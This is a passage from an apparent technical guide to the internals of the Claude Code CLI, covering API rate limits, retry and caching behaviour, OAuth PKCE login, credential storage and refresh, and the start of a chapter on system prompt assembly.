The `setLastApiCompletionTimestamp()` and `getLastApiCompletionTimestamp()` functions in `src/bootstrap/state.ts` record the time of the most recent API completion. This timestamp serves two purposes: it drives the thinking-clear latch (the 1-hour idle threshold described later in this chapter), and it provides first-token latency data for performance monitoring. The `tengu_api_success` analytics event includes the time from request start to first streamed token, which is the metric most directly experienced by the user.

First-token latency is particularly important for the interactive REPL experience. A long delay between the user pressing enter and the first character appearing on screen creates the perception of a frozen application, even if the total response time is reasonable. cc mitigates this through the Ink renderer's "thinking" indicator, which displays a spinner during the time-to-first-token window. The `logAPISuccessAndDuration()` function records both the first-token latency and the total request duration, allowing the team to monitor for regressions in response times.

The `addToTotalDurationState()` function in `src/bootstrap/state.ts` accumulates total API wait time across the session. This is displayed in the REPL header alongside the cost, giving users a sense of how much wall-clock time has been spent waiting for the API versus doing productive work. The ratio of API wait time to session duration is a key metric for evaluating whether the agent is compute-bound (waiting for the model) or IO-bound (waiting for tools like Bash or FileRead).

### Rate limit handling

Rate limit handling is a dedicated subsystem that spans `errors.ts`, `claudeAiLimits.ts`, and `withRetry.ts`. When the API returns a 429 status, the error handler extracts rate-limit headers (`anthropic-ratelimit-unified-representative-claim`, `anthropic-ratelimit-unified-overage-status`, `anthropic-ratelimit-unified-reset`, `anthropic-ratelimit-unified-overage-reset`) to determine the type and severity of the limit.

The rate limit system distinguishes three tiers:

1. **Standard limits** (five-hour and seven-day windows): These are the primary rate limits for all users. The `fetchUtilization()` function from `src/services/api/usage.ts` provides utilization percentages and reset times for each window, which are displayed as progress bars in the REPL header.

2. **Overage**: Claude Max and Team users can exceed their standard limits by drawing on overage capacity. The `overage_status` header indicates whether overage is `allowed`, `allowed_warning`, or `rejected`. The `overage_disabled_reason` header explains why overage was denied (e.g., the user's plan does not include overage, or the overage pool is exhausted).

3. **Model-specific limits** (`seven_day_opus`, `seven_day_sonnet`): These apply to specific model families, allowing the API to enforce tighter limits on expensive models like Opus. The `getRateLimitErrorMessage()` function in `src/services/claudeAiLimits.ts` generates contextual error messages based on the limit type, the reset time, and the overage status.

The `shouldProcessRateLimits()` function in `src/services/rateLimitMocking.ts` gates rate-limit processing for the `/mock-limits` development command, which allows internal testing of rate-limit UI without actually hitting limits. This is a testing-only escape hatch that is not active in production builds.

## Edge cases and failure modes

### Beta header latching

Several beta headers use a "latch" pattern to prevent prompt cache busting. Once a beta feature (like AFK mode, fast mode, or cache editing) is activated, its header stays on for the rest of the session, even if the feature is later deactivated. Without latching, toggling a feature on and off would change the beta headers on every request, invalidating the cache prefix.

```typescript
// src/services/api/claude.ts:L117-L132
import {
  getAfkModeHeaderLatched,
  getCacheEditingHeaderLatched,
  getFastModeHeaderLatched,
  // ...
  setAfkModeHeaderLatched,
  setCacheEditingHeaderLatched,
  setFastModeHeaderLatched,
  // ...
} from 'src/bootstrap/state.js'
```

The latching mechanism is implemented in `bootstrap/state.ts` with nullable boolean fields (`boolean | null`). A `null` value means the header has not yet been activated; a `true` value means it has been activated and must remain on. The `clearBetaHeaderLatches()` function (`src/bootstrap/state.ts:L1744-L1749`) resets all latches on `/clear` and `/compact`, allowing a fresh conversation to get fresh header evaluation. This reset is necessary because a new conversation after `/clear` has a fresh prompt cache that can be warmed with a different set of headers; the old latched headers would force the new conversation to carry unnecessary betas.

### Thinking clear latch for idle sessions

When more than 1 hour has passed since the last API call, the `thinkingClearLatched` flag (`src/bootstrap/state.ts:L240-L243`) triggers clearing of thinking blocks from the context. This is a confirmed cache miss (the server-side cache TTL has expired), so there is no cache-hit benefit to keeping thinking blocks. Once latched, the flag stays on so the newly-warmed thinking-cleared cache is not busted by flipping back to `keep:'all'`. This implements a practical form of context rotation (HER section 12.3, "Context Rotation" universal safety pattern).

The thinking clear latch interacts with the compaction hierarchy in a subtle way. When thinking blocks are cleared, the resulting messages are shorter, which reduces the input token count for the next API call. However, the clearing also changes the message fingerprint, which can cause a cache break if the server-side cache has not yet expired. The latch is only set when `timeSinceLastApiCallMs` exceeds the 1-hour threshold, which is a strong signal that the cache has expired (the server-side TTL is 5 minutes, so 1 hour is well beyond the expiration window).

### Model regression from provider updates

HER failure mode 6.14 warns that when a provider updates a model, harness behavior can break silently because the harness was tuned for specific model behaviors. cc mitigates this through:

1. **Explicit model versioning**: Model strings like `claude-sonnet-4-20250514` include the date, allowing pinning to specific model versions. The `--model` flag accepts these versioned strings, and the `getMainLoopModel()` function returns the current default model string, which includes the version date.

2. **Beta header gating**: New model capabilities are gated behind beta headers, so they are not activated until the harness explicitly opts in. This prevents a provider update from silently changing the behavior of an existing feature. For example, the `interleaved-thinking-2025-05-14` beta header must be explicitly included in the request for the model to use interleaved thinking; without the header, the model uses the legacy non-interleaved thinking behavior.

3. **Migration system**: The migration system in `main.tsx` (chapter 6) updates model strings when new versions are released. The `migrateSonnet1mToSonnet45()` and `migrateSonnet45ToSonnet46()` functions (`src/main.tsx:L326-L352`) update user configs that reference the old model string, ensuring that users are automatically upgraded to the latest stable version.

4. **Fallback model selection**: If the primary model fails, the system falls back to a known-stable alternate model. The fallback model is typically the previous generation of the same model family, which has been tested and validated against cc's tool suite.

5. **Prompt cache break detection**: If a provider update changes the model's behavior in a way that affects caching (e.g., different tokenization), the cache break detection system will catch the anomaly. A sudden increase in cache breaks across all sessions is a strong signal that a model update has changed the request processing behavior.

### 529 error handling

The `is529Error()` function (`src/services/api/withRetry.ts`) identifies overloaded errors from the Anthropic API. These are treated as retriable with exponential backoff, but with a lower maximum retry count than other transient errors. This prevents the agent from spending excessive time waiting for an overloaded API to recover. The 529 error is common during peak usage hours, and a long-running agent that retries indefinitely on 529 errors can accumulate significant costs in wasted API calls.

The retry policy for 529 errors also includes a "circuit breaker" pattern: if the agent has experienced multiple 529 errors in quick succession, it reduces the retry count for subsequent requests. This prevents the agent from hammering an already-overloaded API with retry attempts. The circuit breaker is implemented via a simple counter that tracks the number of 529 errors in the current session and adjusts the retry parameters accordingly.

### API fingerprint computation

The `computeFingerprintFromMessages()` function (`src/utils/fingerprint.ts`) computes a content-based fingerprint of the messages sent to the API. This fingerprint is used for two purposes: cache break detection (comparing fingerprints across requests to detect when the prompt state has changed) and debugging (logging the fingerprint alongside API requests so that support engineers can correlate reports from different users experiencing the same issue). The fingerprint is a hash of the message content, not the raw bytes, so it is stable across minor formatting changes (like whitespace normalization) but sensitive to substantive changes (like adding or removing a message).

### Thinking configuration

The `ThinkingConfig` type (`src/utils/thinking.ts`) determines how thinking is configured for each API request. The configuration depends on the model, the user's settings, and the session state. The `modelSupportsThinking()` function checks whether the current model supports extended thinking, and `modelSupportsAdaptiveThinking()` checks whether it supports adaptive thinking budgets. When thinking is enabled, the request includes a `thinking` parameter with the `type` set to `enabled` and the `budget_tokens` set to the maximum thinking tokens for the model. The `getMaxThinkingTokensForModel()` function (`src/utils/context.ts`) returns the maximum thinking budget based on the model's context window and the current token usage.

The thinking configuration also interacts with the effort system. The `resolveAppliedEffort()` function (`src/utils/effort.ts`) maps the user's effort setting (low, medium, high) to a thinking budget and a sampling temperature. Higher effort settings result in larger thinking budgets and lower temperatures, encouraging the model to spend more time reasoning before producing a response. Lower effort settings result in smaller thinking budgets and higher temperatures, allowing the model to produce faster but less thoroughly reasoned responses.

### Structured outputs and JSON schema

The `STRUCTURED_OUTPUTS_BETA_HEADER` enables the structured outputs feature, which allows the API to produce responses that conform to a JSON schema. The `initJsonSchema` field in `bootstrap/state.ts` stores the JSON schema for structured output, which is set by the SDK when the user requests a structured response. When a JSON schema is present, the API is instructed to produce a response that conforms to the schema, and the response is validated against the schema before being returned to the caller.

The `modelSupportsStructuredOutputs()` function (`src/utils/betas.ts`) checks whether the current model supports structured outputs. Not all models support this feature; attempting to use structured outputs with an unsupported model causes an API error. The function is called during request assembly to gate the inclusion of the structured outputs beta header and the JSON output format parameter.

### Fast mode and the speed parameter

The fast mode system (`src/utils/fastMode.ts`) provides a way to reduce the model's thinking budget for faster responses. When fast mode is enabled, the `speed` body parameter is set to a value that instructs the API to use a smaller thinking budget, producing responses more quickly at the cost of reduced reasoning depth. The fast mode header is latched once activated (`fastModeHeaderLatched` in `bootstrap/state.ts`) to prevent cache busting when the user toggles fast mode on and off.

The `isFastModeAvailable()` function checks whether fast mode is available for the current user (gated by GrowthBook feature flags and the user's subscription level). The `isFastModeEnabled()` function checks whether fast mode is currently active. The `isFastModeCooldown()` function checks whether fast mode is in a cooldown period after being deactivated, preventing the user from rapidly toggling fast mode on and off (which would cause cache busting on every toggle).

### Quota status extraction

The `extractQuotaStatusFromError()` function (imported from `src/services/claudeAiLimits.ts` at L99) and `extractQuotaStatusFromHeaders()` function parse API error responses and successful responses, respectively, for quota-related information. This information is used to update the quota status displayed in the REPL header, giving users real-time visibility into their remaining API quota. The quota status includes the total quota, the remaining quota, and the reset time (when the quota will be replenished). This is particularly important for users on the Claude Pro and Max plans, which have monthly token limits.

The `currentLimits()` function (`src/services/claudeAiLimits.ts`) returns the user's current API limits based on their subscription level. The limits are fetched from the Anthropic API on each request and cached for the duration of the session. The function returns an object with fields like `maxTokensPerRequest`, `maxRequestsPerMinute`, and `maxTokensPerDay`, which are used by the query loop to enforce rate limits and display usage information.

### Advisor system and model routing

The advisor system (`src/utils/advisor.ts`) runs a separate, smaller model in parallel with the primary model to provide suggestions and corrections. The `isAdvisorEnabled()` function checks whether the advisor is active for the current user and model. The `modelSupportsAdvisor()` function checks whether the current model supports the advisor feature. The `ADVISOR_BETA_HEADER` enables the advisor on the API side, and the `getExperimentAdvisorModels()` function returns the list of models that can be used as advisors.

The advisor system is an early implementation of semantic routing (HER section 13.3): it uses a cheaper model to provide lightweight feedback on the primary model's output, catching obvious errors and suggesting improvements without consuming the expensive primary model's context window. The advisor runs asynchronously and its output is injected into the response stream as advisor blocks, which are stripped before the messages are sent back to the API on the next iteration.

## Where cc diverges from the published pattern

HER section 13 describes a cost control architecture with per-task cost caps, per-session cost caps, per-hour spend rate alerts, and a dead-letter queue. cc implements a subset of this:

- **Per-session cost tracking**: `totalCostUSD` in `bootstrap/state.ts` tracks cumulative session cost.
- **Token budget enforcement**: The token budget system (chapter 10) caps output tokens per turn and per session.
- **No per-task cost cap**: cc does not have a hard cost cap per task. Sessions can run indefinitely as long as the user's API quota is not exhausted.
- **No dead-letter queue**: Exceeded budgets terminate the session rather than queuing for human review.
- **No per-hour spend rate alert**: cc does not implement anomaly detection on spend velocity, though the analytics system logs cost events that could be used for alerting.

HER section 13.3 describes observation masking (52% cost reduction by hiding irrelevant tool outputs, verified by JetBrains Research). cc implements this through the microcompact and content replacement systems (chapter 28), which trim tool results before sending them to the API. The `applyToolResultBudget()` function in the query loop enforces per-message size limits, replacing oversized results with summaries.

HER section 13.5 provides budget reality checks: "$297 for a $50k contract (best case)", "$200 for 6 hours of harness work", "$3,200-$13,000/month per agent (enterprise)", "40-60% TCO underestimation". cc's cost tracking provides the raw data for these calculations, but does not implement the per-outcome tracking recommended in section 13.4. The `totalCostUSD` field tracks cost per session, not cost per completed task.

### OAuth 2.0 with PKCE: the eight-step flow

Every API call requires authentication. For users who authenticate via claude.ai (Pro, Max, Team, Enterprise subscribers), cc implements the OAuth 2.0 Authorization Code flow with PKCE (Proof Key for Code Exchange). The `OAuthService` class in `src/services/oauth/index.ts` orchestrates this flow, coordinating between a local HTTP listener, the user's browser, and the Anthropic authorization server. The PKCE extension prevents authorization code interception attacks: even if an attacker captures the authorization code from the callback URL, they cannot exchange it for tokens without the code verifier, which never leaves the local process.

The flow proceeds through eight steps:

**Step 1 -- Generate code verifier.** The constructor calls `crypto.generateCodeVerifier()` (`src/services/oauth/crypto.ts:L11`), which generates 32 random bytes and base64url-encodes them. The base64url encoding replaces `+` with `-`, `/` with `_`, and strips trailing `=` padding to produce a URL-safe string.

```typescript
// src/services/oauth/crypto.ts:L11 — Code verifier generation
export function generateCodeVerifier(): string {
  return base64URLEncode(randomBytes(32))
}
```

**Step 2 -- Derive code challenge.** `crypto.generateCodeChallenge()` (`src/services/oauth/crypto.ts:L15`) hashes the verifier with SHA-256 and base64url-encodes the digest. The authorization server receives only this derived challenge, not the verifier itself. This ensures that an eavesdropper who intercepts the authorization request cannot reconstruct the verifier.

```typescript
// src/services/oauth/crypto.ts:L15 — SHA-256 code challenge derivation
export function generateCodeChallenge(verifier: string): string {
  const hash = createHash('sha256')
  hash.update(verifier)
  return base64URLEncode(hash.digest())
}
```

**Step 3 -- Generate state parameter.** `crypto.generateState()` (`src/services/oauth/crypto.ts:L21`) produces a separate 32-byte random value for CSRF protection. The state is sent in the authorization URL and must match the value returned in the callback; a mismatch indicates a forged redirect.

**Step 4 -- Open browser to authorization URL.** `startOAuthFlow()` (`src/services/oauth/index.ts:L32`) starts an `AuthCodeListener` on an OS-assigned localhost port, builds two authorization URLs (automatic and manual), and opens the automatic URL in the user's default browser. The authorization URL includes `code_challenge`, `code_challenge_method=S256`, `state`, `redirect_uri` (pointing to `http://localhost:<port>/callback`), `client_id` from the OAuth config (`src/constants/oauth.ts:L99`), and the full scope set. The scope set includes `user:inference`, `user:profile`, `user:sessions:claude_code`, `user:mcp_servers`, and `user:file_upload` (`src/constants/oauth.ts:L45-L51`).

**Step 5 -- Listen on localhost for redirect.** The `AuthCodeListener` (`src/services/oauth/auth-code-listener.ts`) creates a temporary `http.createServer()` bound to localhost on port 0 (OS-assigned). When the browser redirects back with `?code=X&state=Y`, the listener validates that the state matches the expected value, stores the `ServerResponse` for later redirect, and resolves the promise with the authorization code. A parallel manual flow allows users in headless environments (SSH sessions, containers) to paste the authorization code directly.

**Step 6 -- Exchange authorization code for tokens.** `client.exchangeCodeForTokens()` sends a POST to the token endpoint (`src/constants/oauth.ts:L91 — TOKEN_URL`) with `grant_type=authorization_code`, the authorization code, `redirect_uri`, `client_id`, and the original `code_verifier`. The server verifies that `SHA256(code_verifier)` matches the `code_challenge` from step 4, completing the PKCE proof. The response contains `access_token`, `refresh_token`, `expires_in`, and `scope`.

**Step 7 -- Store tokens in secure storage.** The `formatTokens()` method (`src/services/oauth/index.ts:L169`) converts the raw token response into an `OAuthTokens` object. The tokens are saved to secure storage (macOS Keychain or plaintext fallback) and the global config via `installOAuthTokens()` in `src/utils/auth.ts`.

**Step 8 -- Return OAuthTokens.** The returned `OAuthTokens` object contains `accessToken`, `refreshToken`, `expiresAt` (computed as `Date.now() + expires_in * 1000`), `scopes`, `subscriptionType`, `rateLimitTier`, and optional `profile` and `tokenAccount` fields (`src/services/oauth/index.ts:L175-L191`).

```mermaid
sequenceDiagram
    participant User
    participant CC as Claude Code (OAuthService)
    participant ACL as AuthCodeListener (localhost)
    participant Browser
    participant Auth as Anthropic Auth Server

    CC->>CC: generateCodeVerifier() — 32 random bytes, base64url
    CC->>CC: generateCodeChallenge(verifier) — SHA-256, base64url
    CC->>CC: generateState() — 32 random bytes, base64url
    CC->>ACL: new AuthCodeListener().start()
    ACL-->>CC: OS-assigned port number
    CC->>CC: buildAuthUrl(challenge, state, port, scopes)
    CC->>Browser: openBrowser(automaticFlowUrl)
    Browser->>Auth: User authenticates and authorizes scopes
    Auth-->>Browser: 302 Redirect to http://localhost:port/callback?code=X&state=Y
    Browser->>ACL: GET /callback?code=X&state=Y
    ACL->>ACL: Validate state === expectedState (CSRF check)
    ACL-->>CC: Resolve with authorization code
    CC->>Auth: POST /oauth/token {code, code_verifier, redirect_uri, client_id}
    Auth->>Auth: Verify SHA256(code_verifier) === stored code_challenge
    Auth-->>CC: {access_token, refresh_token, expires_in, scope}
    CC->>Auth: GET /api/oauth/profile (Bearer access_token)
    Auth-->>CC: {subscriptionType, rateLimitTier, displayName}
    CC->>CC: Save tokens to secure storage
    ACL->>Browser: 302 Redirect to success page
```

### Secure storage: macOS Keychain and plaintext fallback

OAuth tokens and API keys need durable, protected storage between sessions. cc uses a two-tier storage system: macOS Keychain as the primary backend on Darwin, with a plaintext JSON file as the universal fallback.

**macOS Keychain storage** (`src/utils/secureStorage/macOsKeychainStorage.ts`) uses the `security` command-line tool to interact with the macOS Keychain Services API. The implementation addresses three security and reliability concerns:

First, process list exposure. Process monitors like CrowdStrike observe all command-line arguments, so passing credentials via `argv` would expose them in security logs. The storage uses `security -i` (interactive stdin mode), piping the `add-generic-password` command via stdin so that process monitors see only `security -i` in the process list, not the credential payload (`src/utils/secureStorage/macOsKeychainStorage.ts:L122-L125`).

Second, shell metacharacter injection. Credentials can contain characters that have special meaning in shell contexts. The `-X` flag accepts hex-encoded input, which eliminates any possibility of shell injection or truncation from special characters (`src/utils/secureStorage/macOsKeychainStorage.ts:L109`).

Third, the stdin buffer limit. The `security -i` command reads stdin with a 4096-byte `fgets()` buffer. A command line exceeding this limit is silently truncated, causing the first 4096 bytes to be interpreted as one command (which fails due to an unterminated quote) and the overflow to be interpreted as a second unknown command. The net effect is a non-zero exit with no data written, but the previous keychain entry remains intact, which fallback storage then reads as stale. The `SECURITY_STDIN_LINE_LIMIT` constant (`src/utils/secureStorage/macOsKeychainStorage.ts:L24`) reserves 64 bytes of headroom below the 4096-byte limit for line-terminator accounting. Payloads exceeding this limit fall back to the `argv` path, where hex encoding defeats naive plaintext grep rules even though a determined observer could decode it.

```typescript
// src/utils/secureStorage/macOsKeychainStorage.ts:L24 — Buffer limit constant
const SECURITY_STDIN_LINE_LIMIT = 4096 - 64
```

The read path (`macOsKeychainStorage.read()`, L28) uses `security find-generic-password -a <username> -w -s <serviceName>` to retrieve the stored JSON. The result is cached with a TTL managed by `keychainCacheState`, and a stale-while-error pattern ensures that a single transient `security` spawn failure does not poison the cache and surface as "Not logged in" across all subsystems (`src/utils/secureStorage/macOsKeychainStorage.ts:L57-L63`).

**Plaintext storage** (`src/utils/secureStorage/plainTextStorage.ts`) stores tokens in `~/.claude/.credentials.json` with mode `0o600` (owner read/write only). This is the only option on Linux and Windows. The `update()` method creates the `~/.claude/` directory if it does not exist, writes the JSON data, and immediately calls `chmodSync(storagePath, 0o600)` to restrict permissions (`src/utils/secureStorage/plainTextStorage.ts:L57-L61`). The `warning: 'Warning: Storing credentials in plaintext.'` return value is displayed to the user on first login when the keychain is unavailable.

**Fallback composition** (`src/utils/secureStorage/fallbackStorage.ts`) wraps primary and secondary storage into a single `SecureStorage` interface. The `read()` method tries the primary storage first and falls back to the secondary if the primary returns null. The `update()` method is more subtle: on a successful primary write where the primary was previously empty (`primaryDataBefore === null`), it deletes the secondary storage to complete the migration (`src/utils/secureStorage/fallbackStorage.ts:L37-L39`). On a primary write failure, it writes to the secondary and then best-effort-deletes the primary to prevent stale primary entries from shadowing fresh secondary data --- a scenario that caused infinite `/login` loops in issue #30337 (`src/utils/secureStorage/fallbackStorage.ts:L49-L54`).

### Credential priority order

Authentication is not a single mechanism but an eight-source priority chain. The `getAuthTokenSource()` function (`src/utils/auth.ts:L153-L206`) checks each source in order and returns the first match. This ordering ensures that explicit configuration (environment variables, file descriptors) always takes precedence over discovered credentials (keychain, config files), and that the OAuth login flow is triggered only when no other credential source is available.

The priority chain, from highest to lowest:

1. **`ANTHROPIC_AUTH_TOKEN`** environment variable --- an explicit bearer token injected by proxy configurations or gateway setups. Skipped in managed OAuth contexts (CCR, Claude Desktop) to prevent environment leakage from interfering with the host application's auth (`src/utils/auth.ts:L164-L166`).

2. **`CLAUDE_CODE_OAUTH_TOKEN`** environment variable --- an OAuth access token provided by the environment, used in CI/CD pipelines and automated deployments. Returns an inference-only token with no refresh capability (`src/utils/auth.ts:L168-L170`).

3. **File descriptor provided token** --- `CLAUDE_CODE_OAUTH_TOKEN_FILE_DESCRIPTOR` passes an OAuth token via a file descriptor, which is more secure than environment variables because the token is not visible in `/proc/<pid>/environ`. Used by the CCR infrastructure and SDK control protocol (`src/utils/auth.ts:L173-L191`).

4. **CCR disk fallback** --- when subprocesses cannot inherit the pipe FD from their parent, the token is written to a temporary file and read back by the child process. Distinguished from the FD source so that org-mismatch error messages do not tell the user to unset a variable that does not exist (`src/utils/auth.ts:L187-L190`).

5. **`apiKeyHelper`** --- a user-configured shell command (from `settings.json`) that outputs an API key. The command is executed once and the result cached with a configurable TTL (default 5 minutes, overridable via `CLAUDE_CODE_API_KEY_HELPER_TTL_MS`). Skipped in managed contexts to prevent the user's personal settings from interfering with organizational auth (`src/utils/auth.ts:L196-L198`).

6. **Keychain/secure storage** --- OAuth tokens stored in the macOS Keychain or `~/.claude/.credentials.json` by a previous `/login` session. The `getClaudeAIOAuthTokens()` function (`src/utils/auth.ts:L1255`) checks the secure storage via the `getSecureStorage()` abstraction (`src/utils/auth.ts:L200-L203`).

7. **`ANTHROPIC_API_KEY`** environment variable --- a direct API key, checked via `getAnthropicApiKeyWithSource()` (`src/utils/auth.ts:L226`). On macOS, the key may also come from the keychain via the legacy `getApiKeyFromConfigOrMacOSKeychain()` path (`src/utils/auth.ts:L1051`).

8. **None** --- no credential source found. The CLI triggers the interactive OAuth login flow (`/login`).

### Token refresh with five-minute buffer

OAuth access tokens have a finite lifetime. The `checkAndRefreshOAuthTokenIfNeeded()` function (`src/utils/auth.ts:L1427`) is called before every API request to ensure the token is fresh. Rather than waiting for the token to expire and the API to return a 401, the function proactively refreshes the token when it is within 5 minutes of expiry.

The expiry check is performed by `isOAuthTokenExpired()` (`src/services/oauth/client.ts:L344`):

```typescript
// src/services/oauth/client.ts:L344 — Five-minute expiry buffer
export function isOAuthTokenExpired(expiresAt: number | null): boolean {
  if (expiresAt === null) {
    return false
  }

  const bufferTime = 5 * 60 * 1000
  const now = Date.now()
  const expiresWithBuffer = now + bufferTime
  return expiresWithBuffer >= expiresAt
}
```

The 5-minute buffer serves two purposes. First, it accounts for clock skew between the client and the authorization server, which can be up to 30 seconds in practice. Second, it provides headroom for the refresh request itself (typically 200-500ms), preventing the scenario where the token expires between the check and the API call. The null-expiresAt case returns `false` (not expired), which is the correct behavior for tokens injected via environment variables (`CLAUDE_CODE_OAUTH_TOKEN`) that have no expiration metadata --- these tokens are used until they fail with a 401.

The refresh implementation (`src/utils/auth.ts:L1447-L1555`) uses a multi-layer concurrency control strategy. An in-flight promise (`pendingRefreshCheck`) deduplicates concurrent calls within the same process. A filesystem lock (`lockfile.lock(claudeDir)`) prevents concurrent refreshes across multiple cc processes sharing the same credential store. After acquiring the lock, the function re-reads tokens from storage to check whether another process has already refreshed them (the "double-check after lock" pattern). The lock acquisition uses exponential backoff with up to 5 retries and 1-2 seconds of jittered delay between attempts (`src/utils/auth.ts:L1496-L1502`).

Cross-process staleness detection (`invalidateOAuthCacheIfDiskChanged()`, `src/utils/auth.ts:L1320`) compares the `mtime` of `~/.claude/.credentials.json` against a cached value and clears the memoize cache when the file has been modified by another process. Without this, a second terminal's `/login` would revoke the token server-side, but the first terminal's memoize cache would serve the stale token indefinitely.

### Cloud provider credential chains

When cc is configured for a cloud provider (Bedrock, Vertex, or Foundry), the first-party OAuth flow is bypassed entirely and authentication delegates to provider-specific credential chains.

**AWS Bedrock** (`src/services/api/client.ts:L153-L189`). The credential chain evaluates in this order: (1) `AWS_BEARER_TOKEN_BEDROCK` environment variable, which sets a bearer token directly on the `Authorization` header with `skipAuth: true` to bypass the SDK's own credential resolution; (2) `refreshAndGetAwsCredentials()` (`src/utils/auth.ts:L787`), which runs an optional auth refresh command, exports credentials, clears the AWS INI cache, and returns `{ accessKeyId, secretAccessKey, sessionToken }` with TTL-based caching; (3) the AWS SDK's default credential chain (environment variables, shared credentials file, EC2 instance metadata, ECS container credentials). The region is determined by `getAWSRegion()` (`src/utils/envUtils.ts:L96`), which reads `AWS_REGION`, then `AWS_DEFAULT_REGION`, and falls back to `us-east-1`.

**Google Vertex AI** (`src/services/api/client.ts:L221-L297`). Authentication uses `GoogleAuth` from `google-auth-library` with the `https://www.googleapis.com/auth/cloud-platform` scope. The implementation carefully avoids a 12-second GCE metadata server timeout by checking for project environment variables (`GCLOUD_PROJECT`, `GOOGLE_CLOUD_PROJECT`) and credential key files (`GOOGLE_APPLICATION_CREDENTIALS`) before deciding whether to set `projectId` from `ANTHROPIC_VERTEX_PROJECT_ID` (`src/services/api/client.ts:L253-L288`). If neither environment variables nor key files are present, the `projectId` fallback prevents `GoogleAuth` from reaching the metadata server, which would stall startup for 12 seconds outside GCP. The `refreshGcpCredentialsIfNeeded()` function (`src/utils/auth.ts`) triggers credential refresh when cached GCP credentials are expired. The region is per-model, resolved by `getVertexRegionForModel()`, with `CLOUD_ML_REGION` as the default and `us-east5` as the ultimate fallback (`src/utils/envUtils.ts:L103`).

**Azure Foundry** (`src/services/api/client.ts:L191-L219`). When `ANTHROPIC_FOUNDRY_API_KEY` is set, the Foundry SDK uses it directly. Otherwise, `DefaultAzureCredential` from `@azure/identity` tries multiple auth methods in sequence: environment variables (`AZURE_TENANT_ID`, `AZURE_CLIENT_ID`, `AZURE_CLIENT_SECRET`), managed identity (for Azure-hosted workloads), and Azure CLI credentials. The `getBearerTokenProvider()` function creates a callback that returns a fresh Azure AD token for the `https://cognitiveservices.azure.com/.default` scope, which the Foundry SDK calls on each request (`src/services/api/client.ts:L206-L209`).

## Developer takeaways for building a long-running agent

1. **Latch beta headers once activated.** Toggling beta features on and off invalidates the prompt cache. Latching keeps the header on for the rest of the session, preventing cache busting.

2. **Detect cache breaks explicitly.** A cache break is expensive (full input re-processing). Log cache breaks separately from hits to monitor efficiency and diagnose regressions.

3. **Implement retry with full jitter.** Raw exponential backoff causes thundering herds when multiple agents retry simultaneously. Full jitter (uniform delay between 0 and the backoff interval) spreads retries across time.

4. **Track cumulative usage per model.** Different models have different costs. Per-model tracking in `bootstrap/state.ts` enables cost-per-outcome analysis (HER section 13.4) and informs model routing.

5. **Clear thinking blocks on confirmed cache misses.** After a long idle period, the server-side cache has expired. Keeping thinking blocks adds token cost without benefit; clearing them warms a cheaper cache.

6. **Shallow-clone cached parse results.** LRU-cached parsers return the same object reference for the same input. Mutating it poisons the cache for subsequent callers.

7. **Gate new model capabilities behind beta headers.** Do not auto-enable new capabilities. Gate them behind explicit beta headers so the harness opts in at its own pace after validation.

8. **Use PKCE for OAuth in CLI applications.** Desktop and CLI applications cannot keep a client secret; PKCE replaces the secret with a per-flow cryptographic proof that prevents authorization code interception without requiring a pre-shared credential.

9. **Pipe credentials via stdin, not argv.** Process monitors log command-line arguments. Using `security -i` (interactive stdin) with hex-encoded payloads keeps credentials out of the process list and avoids shell metacharacter issues.

10. **Implement stale-while-error for credential reads.** A transient failure in the secure storage backend (e.g., a keychain spawn timeout) should serve the last known good value rather than treating the credential as absent, which would cascade into spurious "Not logged in" errors across the application.

11. **Refresh tokens proactively with a time buffer.** Waiting for a 401 to trigger refresh adds a failed request to the critical path. A 5-minute buffer before expiry accounts for clock skew and refresh latency while avoiding unnecessary refresh cycles.

# System Prompts and Prompt Assembly

## Overview

Every query cycle in cc begins with the same question: what does the model see before it generates its first token? The answer is the system prompt -- a multi-layered assembly of instructions, environment facts, memory files, tool descriptions, and session-specific guidance that shapes every response the model produces. The system prompt is not a static blob of text. It is a dynamically composed artifact built fresh (or cache-resumed) on each API call, and its architecture directly determines the agent's behavior, cost profile, and cache hit rate.

This chapter traces the full prompt assembly pipeline from `src/constants/prompts.ts` through the CLAUDE.md loading machinery in `src/utils/claudemd.ts`, the context-analysis layer in `src/utils/analyzeContext.ts`, and the context-window configuration in `src/utils/context.ts`. We examine how cc balances three competing pressures: providing enough instruction for high-quality output, keeping token costs manageable, and preserving prompt-cache hits across turns. The system prompt is the single most expensive token investment cc makes on every API call, and its design reflects hard-won lessons about what the model needs to see and what it does not.

## Data structures and contracts

### The system prompt as a string array

The system prompt is not a single string. `getSystemPrompt()` in `src/constants/prompts.ts` returns `Promise<string[]>` -- an ordered array of sections, each a self-contained markdown block. This design enables two critical features that a monolithic string cannot support:

1. **Cache boundary management**: A special boundary marker `SYSTEM_PROMPT_DYNAMIC_BOUNDARY` separates static (cacheable) content from dynamic (per-session) content. Everything before this marker can use `scope: 'global'` for cross-user prompt caching on the Anthropic API. This means the first several hundred tokens of the system prompt are served from cache on almost every call, dramatically reducing both latency and cost.

2. **Section-level resolution**: Each dynamic section is wrapped in `systemPromptSection()` or `DANGEROUS_uncachedSystemPromptSection()`, which registers it with the section resolver for conditional evaluation and caching. This allows sections to be included or excluded based on runtime conditions (feature gates, environment variables, user settings) without rebuilding the entire prompt.

```typescript
// src/constants/prompts.ts:L114-L117
export const SYSTEM_PROMPT_DYNAMIC_BOUNDARY =
  '__SYSTEM_PROMPT_DYNAMIC_BOUNDARY__'
```

The boundary marker itself is never seen by the model. It is a control token that the API-side caching layer in `src/services/api/claude.ts` uses to split the system prompt array into two cache scopes. Sections before the boundary are marked `scope: 'global'`; sections after are marked `scope: 'session'` or left unscoped.

### The MemoryFileInfo type

CLAUDE.md files are parsed into `MemoryFileInfo` objects, which carry the file path, memory type, processed content, optional glob patterns, and metadata about whether the content differs from what is on disk. This type is the fundamental data structure of the instruction-loading subsystem:

```typescript
// src/utils/claudemd.ts:L229-L243
export type MemoryFileInfo = {
  path: string
  type: MemoryType
  content: string
  parent?: string // Path of the file that included this one
  globs?: string[] // Glob patterns for file paths this rule applies to
  // True when auto-injection transformed `content` (stripped HTML comments,
  // stripped frontmatter, truncated MEMORY.md) such that it no longer matches
  // the bytes on disk. When set, `rawContent` holds the unmodified disk bytes
  // so callers can cache a `isPartialView` readFileState entry — presence in
  // cache provides dedup + change detection, but Edit/Write still require an
  // explicit Read before proceeding.
  contentDiffersFromDisk?: boolean
  rawContent?: string
}
```

